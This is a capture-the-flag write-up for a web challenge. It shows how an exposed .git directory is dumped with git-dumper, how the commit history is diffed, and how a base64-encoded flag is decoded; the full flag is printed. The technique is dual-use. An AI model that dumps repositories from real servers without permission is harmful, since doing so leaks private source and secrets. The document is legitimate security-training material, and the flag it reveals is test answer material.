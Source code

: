 ```yaml
---
name: Commit & Order - Version Control Unit (2025)
event: CTF@CIT CTF 2025
category: Web
description: Writeup for Commit & Order - Version Control Unit (Web) - CTF@CIT CTF (2025) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Commit & Order: Version Control Unit

[![](https://img.youtube.com/vi/ZBdApaw0r0M/0.jpg)](https://www.youtube.com/watch?v=ZBdApaw0r0M?t=140 "Commit & Order: Version Control Unit (CIT CTF)")

## Description

> In software development, the repository is represented by two separate yet equally important branches...

## Solution

Another PHP login page. Test for SQLi again, thankfully not a repeat of the first challenge 😁

Description hints at `git`, so we can check `http://23.179.17.40:58002/.git/`

It returns a `Forbidden` page, meaning that it exists _but_ we cant access it. Time to check out the [git-dumper](https://github.com/arthaud/git-dumper) tool! It takes the URL and directory to dump to.

{% code overflow="wrap" %}

```bash
git-dumper http://23.179.17.40:58002/.git/ .
```

{% endcode %}

It downloads the git repo, now we can check the log.

{% code overflow="wrap" %}

```bash
git log

commit 7c8c6a8e434cb23aa9c9dac0ce715e928016849a (HEAD -> master)
Author: webmaster <webmaster@ctf.cyber-cit.club>
Date:   Fri Apr 18 12:39:59 2025 -0400

    I think we're good for now

commit 9b8bf13600c17ba7cbbc9ac7dcffaebd36b16b36
Author: webmaster <webmaster@ctf.cyber-cit.club>
Date:   Fri Apr 18 12:39:06 2025 -0400

    changed it again

commit 68f8fcdbebcca3c8fda1e91fcb842992d09a41d4
Author: webmaster <webmaster@ctf.cyber-cit.club>
Date:   Fri Apr 18 12:34:30 2025 -0400

    putting chatgpt to work

commit 247b12483ba3a6a8d177fdd9d74416a01eb61512
Author: webmaster <webmaster@ctf.cyber-cit.club>
Date:   Fri Apr 18 12:30:08 2025 -0400

    updated some more

commit ca9517713391aca6f5073758effa47c33d3be6b4
Author: webmaster <webmaster@ctf.cyber-cit.club>
Date:   Fri Apr 18 12:26:52 2025 -0400

    updated admin page

commit 0e775315a623ed96d9b0b53e6ffb69dd06b93902
Author: webmaster <webmaster@ctf.cyber-cit.club>
Date:   Fri Apr 18 12:18:13 2025 -0400

    first commit
```

{% endcode %}

Hmmm `"putting chatgpt to work"`? Sounds like somebody has been vibe coding! Let's do a diff.

{% code overflow="wrap" %}

```bash
git diff 68f8fcdbebcca3c8fda1e91fcb842992d09a41d4

+  <h1>Admin Panel</h1>

-  <div class="main-content">
-    <div class="warning-banner">
-      <svg width="24" height="24" fill="currentColor" viewBox="0 0 24 24">
-        <path d="M1 21h22L12 2 1 21zm12-3h-2v2h2v-2zm0-8h-2v6h2v-6z" />
-      </svg>
-      This admin panel is under construction. No actual functionality is available yet. But here, have this: Q0lUezVkODFmNzc0M2Y0YmMyYWJ9
-    </div>
+  <div class="container">
+    <p>This admin page is under construction and currently has no functionality.</p>
```

{% endcode %}

Looks like a base64 encoded message, let's decode.

{% code overflow="wrap" %}

```bash
echo "Q0lUezVkODFmNzc0M2Y0YmMyYWJ9" | base64 -d

CIT{5d81f7743f4bc2ab}
```

{% endcode %}

Flag: `CIT{5d81f7743f4bc2ab}`
